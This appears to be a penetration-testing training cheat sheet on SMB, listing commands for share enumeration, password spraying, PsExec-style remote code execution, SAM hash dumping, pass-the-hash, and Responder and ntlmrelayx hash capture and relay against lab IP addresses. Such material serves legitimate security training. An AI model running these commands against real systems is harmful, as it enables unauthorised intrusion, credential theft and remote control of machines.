 
Server Message Block (SMB) is a communication protocol created for providing shared access to files and printers across nodes on a network.

## Enumeration

```shell-session
sudo nmap 10.129.14.128 -sV -sC -p139,445
```

## Misconfigurations

#### Anonymous Authentication

#### File Share

```shell-session
smbclient -N -L //10.129.14.128
```

`-N` Null Session 
`-L` List Shares

```shell-session
smbmap -H 10.129.14.128
```

```shell-session
smbmap -H 10.129.14.128 -r notes
```

Using `smbmap` with the `-r` or `-R` (recursive) option, one can browse the directories


```shell-session
smbmap -H 10.129.14.128 --download "notes\note.txt"
```

```shell-session
smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"
```

#### Remote Procedure Call (RPC)

The `rpcclient` tool offers us many different commands to execute specific functions on the SMB server to gather information or modify server attributes like a username. We can use this [cheat sheet from the SANS Institute](https://www.willhackforsushi.com/sec504/SMB-Access-from-Linux.pdf) or review the complete list of all these functions found on the [man page](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html) of the `rpcclient`.

```shell-session
rpcclient -U'%' 10.10.110.17
```

```shell-session
enumdomusers
```

`Enum4linux` is another utility that supports null sessions, and it utilizes `nmblookup`, `net`, `rpcclient`, and `smbclient` to automate some common enumeration from SMB targets such as:

- Workgroup/Domain name
- Users information
- Operating system information
- Groups information
- Shares Folders
- Password policy information

The [original tool](https://github.com/CiscoCXSecurity/enum4linux) was written in Perl and [rewritten by Mark Lowe in Python](https://github.com/cddmp/enum4linux-ng).

```shell-session
./enum4linux-ng.py 10.10.11.45 -A -C
```

---
## Protocol Specifics Attacks

#### Brute Forcing and Password Spray

```shell-session

crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth
```

#### SMB

#### Remote Code Execution (RCE)

[PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) is a tool that lets us execute processes on other systems, complete with full interactivity for console applications, without having to install client software manually.

> Has windows service image inside of executable

> deploys it to the admin$ share (by default) on the remote machine

> DCE/RPC interface over SMB to access the Windows Service Control Manager API

Starts the PSExec service on the remote machine. The PSExec service then creates a [named pipe](https://docs.microsoft.com/en-us/windows/win32/ipc/named-pipes) that can send commands to the system.

We can download PsExec from [Microsoft website](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec), or we can use some Linux implementations:

- [Impacket PsExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) - Python PsExec like functionality example using [RemComSvc](https://github.com/kavika13/RemCom).
- [Impacket SMBExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py) - A similar approach to PsExec without using [RemComSvc](https://github.com/kavika13/RemCom). The technique is described here. This implementation goes one step further, instantiating a local SMB server to receive the output of the commands. This is useful when the target machine does NOT have a writeable share available.
- [Impacket atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py) - This example executes a command on the target machine through the Task Scheduler service and returns the output of the executed command.
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) - includes an implementation of `smbexec` and `atexec`.
- [Metasploit PsExec](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/windows/smb/psexec.md) - Ruby PsExec implementation.

#### Impacket PsExec

```shell-session
impacket-psexec -h
```

```shell-session
impacket-psexec administrator:'Password123!'@10.10.110.17
```

#### CrackMapExec

One advantage of `CrackMapExec` is the availability to run a command on multiples host at a time

```shell-session

crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```

`-x` for CMD commands
`-X` for PS commands

If the`--exec-method` is not defined, CrackMapExec will try to execute the atexec method, if it fails you can try to specify the `--exec-method` smbexec.

#### Enumerating Logged-on Users

```shell-session
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
```

#### Extract Hashes from SAM Database

```shell-session
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
```
#### Pass-the-Hash (PtH)

```shell-session
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

#### Forced Authentication Attacks

We can also abuse the SMB protocol by creating a fake SMB Server to capture users' [NetNTLM v1/v2 hashes](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4).

The most common tool to perform such operations is the `Responder`. [Responder](https://github.com/lgandx/Responder) is an LLMNR, NBT-NS, and MDNS poisoner tool with different capabilities, one of them is the possibility to set up fake services, including SMB, to steal NetNTLM v1/v2 hashes. In its default configuration, it will find LLMNR and NBT-NS traffic. Then, it will respond on behalf of the servers the victim is looking for and capture their NetNTLM hashes.

Create a fake SMB server using the Responder default configuration, with the following command:

```shell-session
responder -I <interface name>
```

Name Resolution:
- The hostname file share's IP address is required.
- The local host file (C:\Windows\System32\Drivers\etc\hosts) will be checked for suitable records.
- If no records are found, the machine switches to the local DNS cache, which keeps track of recently resolved names.
- Is there no local DNS record? A query will be sent to the DNS server that has been configured.
- If all else fails, the machine will issue a multicast query, requesting the IP address of the file share from other machines on the network.

Suppose a user mistyped a shared folder's name `\\mysharefoder\` instead of `\\mysharedfolder\`. In that case, all name resolutions will fail because the name does not exist, and the machine will send a multicast query to all devices on the network, including us running our fake SMB server.

```shell-session
sudo responder -I ens33
```

These captured credentials can be cracked using [hashcat](https://hashcat.net/hashcat/) or relayed to a remote host to complete the authentication and impersonate the user.

All saved Hashes are located in Responder's logs directory (`/usr/share/responder/logs/`)

```shell-session
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

If we cannot crack the hash, we can potentially relay the captured hash to another machine using [impacket-ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) or Responder [MultiRelay.py](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py). Let us see an example using `impacket-ntlmrelayx`.

First, we need to set SMB to `OFF` in our responder configuration file (`/etc/responder/Responder.conf`).

```shell-session
cat /etc/responder/Responder.conf | grep 'SMB ='
```

```shell-session
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
```

By default, `impacket-ntlmrelayx` will dump the SAM database, but we can execute commands by adding the option `-c`.

We can create a PowerShell reverse shell using [https://www.revshells.com/](https://www.revshells.com/), set our machine IP address, port, and the option Powershell #3 (Base64).

```shell-session

impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c '<payload>'
```


#### RPC

Apart from enumeration, we can use RPC to make changes to the system, such as:

- Change a user's password.
- Create a new domain user.
- Create a new shared folder.
We can use the [rpclient man page](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html) or [SMB Access from Linux Cheat Sheet](https://www.willhackforsushi.com/sec504/SMB-Access-from-Linux.pdf) from the SANS Institute to explore this further.

